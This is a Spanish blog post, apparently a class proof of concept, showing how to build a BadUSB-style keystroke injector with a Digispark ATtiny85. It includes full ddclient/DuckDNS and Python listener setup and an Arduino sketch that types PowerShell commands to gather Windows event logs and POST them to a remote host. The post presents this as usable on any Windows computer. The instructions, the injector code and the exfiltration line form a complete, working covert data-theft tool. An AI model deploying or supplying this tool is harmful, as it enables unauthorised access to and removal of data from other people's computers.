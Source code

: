 ```yaml
---
author: Inge Gatovsky
pubDatetime: 2024-09-25T03:54:46.649Z
title: Pruena de Concepto Attiny85
slug: tarea-998-prueba-de-concepto
featured: true
draft: false
tags:
  - sistemas-programables
  - attiny85
  - arduino
  - python
  - windows
  - ubuntu
description: Prueba de Concepto Attiny85.
---
```


# Tarea 998: Prueba de Concepto Attiny85

## Objetivo

El objetivo de esta prueba de concepto es obtener los logs de un sistema Windows y enviarlos a un servidor remoto.

## Desarrollo

### Configuración del servidor remoto

1. El servidor remoto es una maquina virtual con el sistema `Ubuntu Server 24.04.1 LTS`, la cual usa una connexión de tipo Bridge con IP Dinámica, por tanto se debe configurar un servicio de DNS dinámico para poder acceder a la maquina virtual desde cualquier lugar.

    ![Ubuntu Server](../../assets/images/sisprog/server.png)

2. Se Creó un dominio en [DuckDNS](https://www.duckdns.org/) para poder acceder al servidor remoto desde cualquier lugar.

3. Para configurar el servicio de DNS dinámico se debe instalar el paquete `ddclient`, y configurar el archivo `/etc/ddclient.conf` con los siguientes datos:

    ```bash
        # Configuration file for ddclient generated by debconf
        

        protocol=duckdns \
        use=if, if='tu tarjeta de red' \
        server=www.duckdns.org \
        login='tu usuario' \
        password='tu token' \
        tu_dominio.duckdns.org
    ```

    * `tu tarjeta de red`: Es la tarjeta de red que se esta utilizando, se puede obtener con el comando `ifconfig`.
    * si deseas activar el servicio de DNS dinámico, se debe ejecutar el siguiente comando:

    ```bash
        sudo systemctl enable ddclient
        sudo systemctl start ddclient
    ```

    * Instalar el paquete `ddclient`:

    ```bash
        sudo apt install -y ddclient
    ```

4. Se activó el firewall de Ubuntu y se abrieron los puertos 22 y 8080.

    ```bash
        sudo ufw enable
        sudo ufw allow 22
        sudo ufw allow 8080
    ```

### Configuración de servidor Python

1. Se creó un servidor básico en Python que escucha en el puerto 8080 y recibe los logs de un cliente.

    ```python
    import os
    from http.server import BaseHTTPRequestHandler, HTTPServer

    class LogHandler(BaseHTTPRequestHandler):
        def do_POST(self):
            if self.path == "/logs":
                content_length = int(self.headers['Content-Length'])
                post_data = self.rfile.read(content_length).decode('utf-8')

                log_file_path = os.path.expanduser("~/logs/windows_logs.txt")

                os.makedirs(os.path.dirname(log_file_path), exist_ok=True)

                with open(log_file_path, "a") as log_file:
                    print(post_data)
                    log_file.write(post_data + "\n")

                self.send_response(200)
                self.end_headers()
            else:
                # 405 Method not allowed
                self.send_response(405)
                self.end_headers()

    def run(server_class=HTTPServer, handler_class=LogHandler):
        server_address = ('', 8080)  # Escuchar en el puerto 8080
        httpd = server_class(server_address, handler_class)
        print("Gatovsky Server Listening at 8080")
        httpd.serve_forever()

    if __name__ == "__main__":
        run()
    ```

    * Para ejecutar el servidor se debe ejecutar el siguiente comando:

        ```bash
            python3 server.py
        ```

    * El servidor escucha en el puerto 8080 y guarda los logs en el archivo `~/logs/windows_logs.txt`. Debes crear la carpeta `logs` si no existe.

    Nota: esto se hizo en el `Home` del usuario.

### Configuración de Arduino IDE 2.x

1. En Archivos > Preferencias > URLs de placas adicionales pega el siguiente enlace: `https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json` esto permitirá instalar las placas de Digistump.

    ![Digistump](../../assets/images/sisprog/IMG_8763.jpg)

2. En Herramientas > Placa > Gestor de tarjetas busca `Digistump AVR Boards` e instala la versión 1.6.7.
    ![Digistump](../../assets/images/sisprog/IMG_8761.jpg)

3. En Herramientas > Placa selecciona `Digispark (Default - 16.5mhz)`.
    ![Digispark](../../assets/images/sisprog/IMG_8762.jpg)

### Configuración del Attiny85

1. Una vez configurado el IDE Usa el siguiente código en un nuevo Sketch.

    ```c
    #include <DigiKeyboard.h>

    void openRun() {
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);  // Windows + R
    delay(500);
    }

    void runCommand(const char *command) {
    DigiKeyboard.println(command);
    delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    delay(1000); 
    }

    void typeCommand() {
        DigiKeyboard.println("$logs = Get-EventLog -LogName System -Newest 5 | Out-String");
        //DigiKeyboard.sendKeyStroke(KEY_ENTER);
        DigiKeyboard.println("$utf8logs = [System.Text.Encoding]::UTF8.GetBytes($logs)");
        //DigiKeyboard.sendKeyStroke(KEY_ENTER);
        DigiKeyboard.println("Invoke-RestMethod -Uri http://dominio.duckdns.org:8080/logs -Method POST -Body $utf8logs");
        DigiKeyboard.sendKeyStroke(KEY_ENTER);
    }

    void setup() {}

    void loop() {
    DigiKeyboard.update();

    openRun();
    runCommand("powershell");

    delay(1000);

    typeCommand();

    // Espera 5 segundos antes de repetir (opcional)
    delay(5000);
    }
    ```

    * Se debe reemplazar `my_dominio.duckdns.org` por el dominio que se creó en DuckDNS.

2. Presiona el boton de `Subir` y espera el mensaje del IDE para insertar el Attiny85.
    ![Subir](../../assets/images/sisprog/IMG_8758.jpg)

3. Conecta el Attiny85 a un puerto USB y espera a que suba el código.
    ![Attiny85](../../assets/images/sisprog/IMG_8759.jpg)

4. Ahora puedes usar el Attiny85 en cualquier computadora con Windows y obtendrás los logs en el servidor remoto.

![Server Run](../../assets/images/sisprog/IMG_8760.jpg)

![Server Logs](../../assets/images/sisprog/logs.png)
